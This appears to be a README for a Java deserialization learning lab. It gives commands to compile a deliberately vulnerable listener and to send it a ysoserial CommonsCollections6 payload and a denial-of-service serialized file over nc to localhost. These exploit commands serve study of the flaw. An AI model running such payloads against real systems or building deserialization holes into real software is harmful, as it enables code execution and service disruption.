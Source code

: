# Java-Deserialization-Basics

javac Vulnerable.java  
java Vulnerable 12345 // listens on port 12345  
or for testing ysoserial payloads  
java -cp .:lib/* Vulnerable 12345  
java -jar lib/ysoserial.jar CommonsCollections6 "touch /tmp/pwnd" | nc 127.0.0.1 12345  
    
SerialDOS is simply https://gist.github.com/coekie/a27cc406fc9f3dc7a70d changed so it generates file dos.ser  
javac SerialDOS.java  
java SerialDOS  
cat dos.ser | nc 127.0.0.1 12345  
    
There is no ysoserial.jar in lib/ because it's almost 50MB large. Use your own or download new release from
https://github.com/frohoff/ysoserial  
